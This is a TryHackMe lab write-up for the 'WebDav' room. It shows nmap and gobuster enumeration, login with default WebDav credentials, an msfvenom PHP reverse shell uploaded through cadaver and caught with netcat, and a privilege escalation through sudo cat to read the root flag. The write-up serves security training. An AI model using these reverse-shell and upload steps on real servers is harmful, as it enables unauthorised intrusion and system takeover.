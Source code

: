 # TryHackMe – WebDav Write-up

## Overview
- Room: WebDav  
- Difficulty: Easy  
- Tags: Enumeration, Web, Exploitation, Privilege Escalation  

---

## Enumeration

### Nmap Scan
Run a basic nmap scan:

```bash
sudo nmap -sC -sV -T4 xxx.xxx.xxx.xxx
```

- `-sC` – run default scripts  
- `-sV` – detect service versions  
- `-T4` – faster scan timing  

**Results:**
```
Nmap scan report for xxx.xxx.xxx.xxx
Host is up (0.093s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Port 80 is running Apache 2.4.18 (Ubuntu).

---

## Web Enumeration

When visiting the site, we see the default Apache2 page.

### Gobuster
Run directory brute force:

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://xxx.xxx.xxx.xxx/
```

**Results:**
```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/index.html           (Status: 200)
/server-status        (Status: 403)
/webdav               (Status: 401)
```

We discover a directory **/webdav** that requires authentication.

---

## Exploitation

We use default WebDav credentials found in public sources. After login, we gain the ability to upload files.

### Creating reverse shell
Generate a payload using `msfvenom`:

```bash
msfvenom -p php/reverse_php LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f raw -o shell.php
```

- `-p php/reverse_php` – PHP reverse shell payload  
- `LHOST` – attacker IP  
- `LPORT` – listener port  
- `-f raw` – save as plain PHP file  
- `-o shell.php` – output filename  

### Upload reverse shell
Use **cadaver** to upload the PHP reverse shell:

```bash
cadaver http://xxx.xxx.xxx.xxx/webdav
put shell.php
```

Set up a listener:

```bash
nc -lvnp 4444
```

After opening `shell.php` in the browser, we get a reverse shell.

### Shell stabilization
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

Check sudo rights:

```bash
sudo -l
```

**Result:**
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

We can run `cat` as root without password.

Read the root flag:

```bash
sudo cat /root/root.txt
```

---

## Flags
- root.txt: obtained using `sudo cat`

---

## Conclusion
We successfully:
1. Performed nmap scan and found the web server.  
2. Discovered a protected directory /webdav with gobuster.  
3. Used default WebDav credentials.  
4. Generated a PHP reverse shell with msfvenom and uploaded it using cadaver.  
5. Got a reverse shell and stabilized it.  
6. Escalated privileges using `sudo cat`.  

A simple but clear example of exploiting misconfigured WebDav and sudo rights.
